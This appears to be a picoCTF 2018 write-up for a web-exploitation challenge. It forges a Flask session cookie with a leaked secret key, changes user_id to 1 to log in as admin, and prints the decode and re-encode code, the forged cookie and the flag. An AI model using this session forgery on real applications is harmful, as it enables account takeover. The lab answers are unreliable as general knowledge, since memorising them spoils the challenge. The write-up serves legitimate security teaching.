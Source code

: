 # Flaskcards Skeleton Key
Web Exploitation - 600 points

## Challenge 
> Nice! You found out they were sending the Secret_key: 06f4eefabf03b8f4e521fbdada13f65c. Now, can you find a way to log in as admin? http://2018shell2.picoctf.com:5953 (link).

## Hint
> What can you do with a flask Secret_Key?

> The database still reverts every 2 hours

## Solution

With the Flask secret_key, we are able to decode and re-encode the session cookie:

- https://stackoverflow.com/a/27287455
- https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key?lq=1
- https://terryvogelsang.tech/MITRECTF2018-my-flask-app/


---

Using this [Github Gist by @aescalana](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe), I could *decode and modify the session cookie*

	secret = "06f4eefabf03b8f4e521fbdada13f65c"
	cookie = "xxx"
	session = decodeFlaskCookie(secret, cookie)

	//////

	Decoded cookie: {u'csrf_token': u'10d3d30c07d13b0af26f8b4631f384ceb385bd65', u'_fresh': True, u'user_id': u'18', u'_id': u'e01741f0b1c3c9f8a0ec50f16c6da2ca1c1fd464824b3ac67ce0c3984591af3e5b7fd2a843c16a7299755c34e3b582429336fb0ebf292250ec1dfc74800112bc'}

And then I assumed that the user_id of 1 will mean the admin, so I changed it accordingly and created a new cookie

	session['user_id'] = u'1'
	cookie = encodeFlaskCookie(secret, session)
	print 'New cookie', cookie

	//////

	New cookie: .eJwlj0uqAkEMAO_Saxf59sfLDJ10giIozOjq8e7ugAeoouqvbLnHcSvX9_6JS9nuq1xLADbBBENnH9knhCskVq9rkk90zCVVOonx9No8wHl00YEzOdRaLppd2LHORmM0VWcJNj0ZGsw1DcKSBpGedlzpTToAIpmXS_Fjz-39esTz7EFYvBgc2kI2mEk1u0llTO7iYdzVVtWT-xyx_yaw_H8Bqvo-tA.Dps_AQ.AswNhwnYrLZMPD3HNeWFF5POoK4

Use Chrome EditThisCookie extension to modify the session cookie. Reload the page and we are now Admin!

## Flag

	Welcome Admin
	Your flag is: picoCTF{1_id_to_rule_them_all_1879a381}

